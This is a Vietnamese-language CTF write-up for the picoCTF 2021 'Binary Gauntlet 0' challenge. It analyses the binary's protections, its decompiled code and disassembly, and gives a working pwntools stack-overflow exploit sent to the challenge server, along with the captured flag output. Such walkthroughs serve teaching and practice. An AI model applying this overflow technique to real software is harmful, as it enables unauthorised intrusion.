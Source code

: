# Binary Gauntlet 0

## Kiểm tra file
### file
```bash
gauntlet: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=a5c4ce8cddd5ece25b706af8d250134c3f70467c, not stripped
```
### checksec
```bash
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```
- Định dạng ELF 64-bit
- Not stripped -> Ta có thể dễ dàng tìm được các hàm trong chương trình
- No Stack Canary, no NX, no PIE, has RWX segments -> Easy BOF

## Decompile & Disassemble
### Decompile `main`
```c
undefined8 main(void)
{
  char local_88 [108];
  __gid_t local_1c;
  FILE *local_18;
  char *local_10;
  
  local_10 = (char *)malloc(1000);
  local_18 = fopen("flag.txt","r");
  if (local_18 == (FILE *)0x0) {
    puts(
        "Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are runningthis on the shell server."
        );
    exit(0);
  }
  fgets(flag,0x40,local_18);
  signal(0xb,sigsegv_handler);
  local_1c = getegid();
  setresgid(local_1c,local_1c,local_1c);
  fgets(local_10,1000,stdin);
  local_10[999] = '\0';
  printf(local_10);
  fflush(stdout);
  fgets(local_10,1000,stdin);
  local_10[999] = '\0';
  strcpy(local_88,local_10);
  return 0;
}
```
### Decompile `sigsegv_handler`
```C
void sigsegv_handler(void)
{
  fprintf(stderr,"%s\n",flag);
  fflush(stderr);               
  exit(1);
}
```
Hàm `sigsegv_handler` sẽ in ra flag. Khi hàm `signal` được gọi, nó sẽ thực thi `sigsegv_handler`. Vậy chỉ cần làm cho chương trình báo lỗi, ta sẽ có được flag.

Chương trình nhận vào 1 input rồi in input đó ra màn hình, sau đó nhận input thứ 2 rồi gọi hàm `strcpy`.
Có 2 lỗi ở hàm main:
1. `printf(local_10)` -> Lỗi chuỗi định dạng (Format String)
2. `strcpy(local_88, local_10)` -> `strcpy` không kiểm tra số lượng kí tự ở dest -> Tràn bộ đệm tại dest nếu không được cấp phát đủ vùng nhớ để chứa chuỗi src (Buffer Overflow)

Vậy bài này có 2 hướng khai thác, nhưng vì người viết chương trình đã tốt bụng tắt hết các cơ chế bảo vệ, chúng ta sẽ dùng cách gây tràn vùng nhớ biến local_88 vì nó được đặt trong stack, dễ dàng ghi đè return address và gây lỗi.
### Disassemble `main`
```asm
0x000000000040090d <+0>:	push   rbp
0x000000000040090e <+1>:	mov    rbp,rsp
0x0000000000400911 <+4>:	sub    rsp,0x90
0x0000000000400918 <+11>:	mov    DWORD PTR [rbp-0x84],edi
0x000000000040091e <+17>:	mov    QWORD PTR [rbp-0x90],rsi
0x0000000000400925 <+24>:	mov    edi,0x3e8
0x000000000040092a <+29>:	call   0x400790 <malloc@plt>
0x000000000040092f <+34>:	mov    QWORD PTR [rbp-0x8],rax
0x0000000000400933 <+38>:	lea    rsi,[rip+0x192]        # 0x400acc
0x000000000040093a <+45>:	lea    rdi,[rip+0x18d]        # 0x400ace
0x0000000000400941 <+52>:	call   0x4007c0 <fopen@plt>
0x0000000000400946 <+57>:	mov    QWORD PTR [rbp-0x10],rax
0x000000000040094a <+61>:	cmp    QWORD PTR [rbp-0x10],0x0
0x000000000040094f <+66>:	jne    0x400967 <main+90>
0x0000000000400951 <+68>:	lea    rdi,[rip+0x180]        # 0x400ad8
0x0000000000400958 <+75>:	call   0x400730 <puts@plt>
0x000000000040095d <+80>:	mov    edi,0x0
0x0000000000400962 <+85>:	call   0x4007d0 <exit@plt>
0x0000000000400967 <+90>:	mov    rax,QWORD PTR [rbp-0x10]
0x000000000040096b <+94>:	mov    rdx,rax
0x000000000040096e <+97>:	mov    esi,0x40
0x0000000000400973 <+102>:	lea    rdi,[rip+0x200766]        # 0x6010e0 <flag>
0x000000000040097a <+109>:	call   0x400760 <fgets@plt>
0x000000000040097f <+114>:	lea    rsi,[rip+0xffffffffffffff41]        # 0x4008c7 <sigsegv_handler>
0x0000000000400986 <+121>:	mov    edi,0xb
0x000000000040098b <+126>:	call   0x400770 <signal@plt>
0x0000000000400990 <+131>:	mov    eax,0x0
0x0000000000400995 <+136>:	call   0x4007b0 <getegid@plt>
0x000000000040099a <+141>:	mov    DWORD PTR [rbp-0x14],eax
0x000000000040099d <+144>:	mov    edx,DWORD PTR [rbp-0x14]
0x00000000004009a0 <+147>:	mov    ecx,DWORD PTR [rbp-0x14]
0x00000000004009a3 <+150>:	mov    eax,DWORD PTR [rbp-0x14]
0x00000000004009a6 <+153>:	mov    esi,ecx
0x00000000004009a8 <+155>:	mov    edi,eax
0x00000000004009aa <+157>:	mov    eax,0x0
0x00000000004009af <+162>:	call   0x400740 <setresgid@plt>
0x00000000004009b4 <+167>:	mov    rdx,QWORD PTR [rip+0x2006f5]        # 0x6010b0 <stdin@@GLIBC_2.2.5>
0x00000000004009bb <+174>:	mov    rax,QWORD PTR [rbp-0x8]
0x00000000004009bf <+178>:	mov    esi,0x3e8
0x00000000004009c4 <+183>:	mov    rdi,rax
0x00000000004009c7 <+186>:	call   0x400760 <fgets@plt>
0x00000000004009cc <+191>:	mov    rax,QWORD PTR [rbp-0x8]
0x00000000004009d0 <+195>:	add    rax,0x3e7
0x00000000004009d6 <+201>:	mov    BYTE PTR [rax],0x0
0x00000000004009d9 <+204>:	mov    rax,QWORD PTR [rbp-0x8]
0x00000000004009dd <+208>:	mov    rdi,rax
0x00000000004009e0 <+211>:	mov    eax,0x0
0x00000000004009e5 <+216>:	call   0x400750 <printf@plt>
0x00000000004009ea <+221>:	mov    rax,QWORD PTR [rip+0x2006af]        # 0x6010a0 <stdout@@GLIBC_2.2.5>
0x00000000004009f1 <+228>:	mov    rdi,rax
0x00000000004009f4 <+231>:	call   0x4007a0 <fflush@plt>
0x00000000004009f9 <+236>:	mov    rdx,QWORD PTR [rip+0x2006b0]        # 0x6010b0 <stdin@@GLIBC_2.2.5>
0x0000000000400a00 <+243>:	mov    rax,QWORD PTR [rbp-0x8]
0x0000000000400a04 <+247>:	mov    esi,0x3e8
0x0000000000400a09 <+252>:	mov    rdi,rax
0x0000000000400a0c <+255>:	call   0x400760 <fgets@plt>
0x0000000000400a11 <+260>:	mov    rax,QWORD PTR [rbp-0x8]
0x0000000000400a15 <+264>:	add    rax,0x3e7
0x0000000000400a1b <+270>:	mov    BYTE PTR [rax],0x0
0x0000000000400a1e <+273>:	mov    rdx,QWORD PTR [rbp-0x8]
0x0000000000400a22 <+277>:	lea    rax,[rbp-0x80]
0x0000000000400a26 <+281>:	mov    rsi,rdx
0x0000000000400a29 <+284>:	mov    rdi,rax
0x0000000000400a2c <+287>:	call   0x400720 <strcpy@plt>
0x0000000000400a31 <+292>:	mov    eax,0x0
0x0000000000400a36 <+297>:	leave  
0x0000000000400a37 <+298>:	ret    
```
Gọi hàm `strcpy`
```asm
0x0000000000400a1e <+273>:	mov    rdx,QWORD PTR [rbp-0x8]
0x0000000000400a22 <+277>:	lea    rax,[rbp-0x80]
0x0000000000400a26 <+281>:	mov    rsi,rdx
0x0000000000400a29 <+284>:	mov    rdi,rax
0x0000000000400a2c <+287>:	call   0x400720 <strcpy@plt>
```
Biến local_88 nằm ở [rbp - 0x80]. Chúng ta cần 0x90 bytes để ghi đè return address và gây `sigsegv`

## Exploit
```python
from pwn import *

context.binary = ELF("./gauntlet")
run = remote("mercury.picoctf.net", 12294)

run.sendline("Pwned")
payload = 'A' * 0x90
run.sendline(payload)

run.interactive()
```
## Output
```bash
[*] '/home/revirven/Desktop/GitHub/CTF-Writeups/PicoCTF-2021/Binary-Exploitation/Binary-Gauntlet-0/gauntlet'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to mercury.picoctf.net on port 12294: Done
[*] Switching to interactive mode
Pwned
fbd01d62c0e369e6de3d63b4b21d3830

[*] Got EOF while reading in interactive
$ 
```

